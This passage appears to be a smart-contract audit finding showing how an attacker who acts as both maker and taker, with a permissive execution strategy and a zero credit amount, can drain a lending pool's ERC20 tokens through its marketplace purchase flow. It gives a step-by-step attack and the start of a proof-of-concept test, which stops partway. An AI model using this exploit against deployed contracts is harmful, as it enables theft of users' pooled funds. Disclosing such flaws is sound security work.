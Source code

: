         // Update maker ask order status to true (prevents replay)
        _isUserOrderNonceExecutedOrCancelled[makerAsk.signer][makerAsk.nonce] = true;
        // Execution part 1/2
        _transferFeesAndFunds(
            makerAsk.strategy,
            makerAsk.collection,
            tokenId,
            makerAsk.currency,
            msg.sender,
            makerAsk.signer,
            takerBid.price,   <--- taker price is what's charged
            makerAsk.minPercentageToAsk
        );
    	...
    }

Since attacker will be both maker and taker in this flow,  he has no problem in supplying a strategy which will accept higher taker price than maker price. It will pass this check:

    (bool isExecutionValid, uint256 tokenId, uint256 amount) = IExecutionStrategy(makerAsk.strategy)
        .canExecuteTakerBid(takerBid, makerAsk);

It is important to note that for this exploit we can pass a 0 credit loan amount, which allows the stolen asset to be any asset, not just ones supported by the pool. This is because of early return in `_borrowTo()` and `\repay()` functions.

The attack POC looks as follows:

1.  Taker (attacker) has 10 DAI
2.  Pool has 990 DAI
3.  Maker (attacker) has 1 doodle NFT.
4.  Taker submits buyWithCredit() transaction:

*   credit amount 0
*   TakerOrder with 1000 amount
*   MakerOrder with 10 amount and "accept all" execution strategy

5.  Pool will take the 10 DAI from taker and additional 990 DAI from it's own funds and send to Maker.
6.  Attacker ends up with both 1000 DAI and an nToken of the NFT

### Impact

Any ERC20 tokens which exist in the pool contract can be drained by an attacker.

### Proof of Concept

In `_pool_marketplace_buy_wtih_credit.spec.ts`, add this test:

    it("looksrare attack", async () => {
      const {
        doodles,
        dai,
        pool,
        users: [maker, taker, middleman],
      } = await loadFixture(testEnvFixture);
      const payNowNumber = "10";
      const poolVictimNumber = "990";
      const payNowAmount = await convertToCurrencyDecimals(
        dai.address,
        payNowNumber
      );
      const poolVictimAmount = await convertToCurrencyDecimals(
        dai.address,
          poolVictimNumber
      );
      const totalAmount = payNowAmount.add(poolVictimAmount);
      const nftId = 0;